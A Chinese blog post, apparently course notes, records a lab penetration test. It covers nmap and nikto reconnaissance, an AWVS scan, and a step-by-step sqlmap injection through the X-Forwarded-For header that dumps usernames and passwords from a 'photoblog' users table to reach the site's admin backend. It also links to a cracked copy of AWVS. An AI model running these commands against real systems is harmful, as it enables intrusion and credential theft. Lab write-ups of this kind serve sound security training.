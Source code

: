```yaml
---
title: 【网络安全0x08】SQL注入之X-Forwarded-For参数注入
date: 2020-06-02 15:53:08
tags: [网络安全, AWVS, sqlmap]
---
```


51CTO的网课，本篇利用nmap搜索开放端口，nikto挖掘敏感目录，使用AWVS扫描网站可利用漏洞，最后使用sqlmap进行X-Forwarded-For参数注入，获得用户名和口令，登录网站后台。

本篇使用工具AWVS，sqlmap。

<!-- more -->

# 使用命令

## AWVS

AWVS13破解版的kali安装教程见：

[AWVS13破解版安装_kali](http://0verflow.cn/?p=1463)

## sqlmap

``` bash
# batch可以自动补全询问
sqlmap -u "url" --headers="X-Forwarded-For:*" --dbs --batch
sqlmap -u "url" --headers="X-Forwarded-For:*" -D [‘数据库名’]  --tables --batch
sqlmap -u "url" --headers="X-Forwarded-For:*" -D [‘数据库名’]  -T [‘表名’] --columns --batch
sqlmap -u "url" --headers="X-Forwarded-For:*" -D [‘数据库名’]  -T [‘表名’] -C [‘字段名1,字段名2,…’] --dump --batch
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个web服务：

``` bash
nmap -sV 192.168.1.117
```

![](./1059/1.PNG)

2. `nikto`挖掘`80`端口web信息，找到一个登录页面：

``` bash
nikto -host http://192.168.1.117/
```

![](./1059/2.PNG)

3. 访问登录页面，尝试弱口令**admin**登录失败，另外这个页面在首页也有：

![](./1059/3.PNG)

4. 使用AWVS，新建**target**为192.168.1.117：

![](./1059/4.PNG)

5. 设置**Report**为`developer`，开始扫描：

![](./1059/5.PNG)

6. 右下角有实时扫描，红色是高危漏洞：

![](./1059/6.PNG)

7. 点进去可以看到详细信息：

![](./1059/7.PNG)

8. sqlmap使用X-Forwarded-For参数扫描，获取到数据库列表：

``` bash
sqlmap -u "http://192.168.1.117/" --headers="X-Forwarded-For:*" --dbs --batch
```

![](./1059/8.PNG)

9. 查看敏感数据库`photoblog`的用户表：

``` bash
sqlmap -u "http://192.168.1.117/" --headers="X-Forwarded-For:*" -D photoblog --tables --batch
```

![](./1059/9.PNG)

10. 查看`users`表的列：

``` bash
sqlmap -u "http://192.168.1.117/" --headers="X-Forwarded-For:*" -D photoblog -T users --cloumns --batch
```

![](./1059/10.PNG)

11. 查看`login`和`password`列的内容，得到用户密码：

``` bash
sqlmap -u "http://192.168.1.117/" --headers="X-Forwarded-For:*" -D photoblog -T users -C "login,password" --dump --batch
```

![](./1059/11.PNG)

12. 利用用户名和密码可登录网站后台，因为没有开启ssh服务，所以不登录靶机。

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [AWVS13破解版安装_kali_](http://0verflow.cn/?p=1463)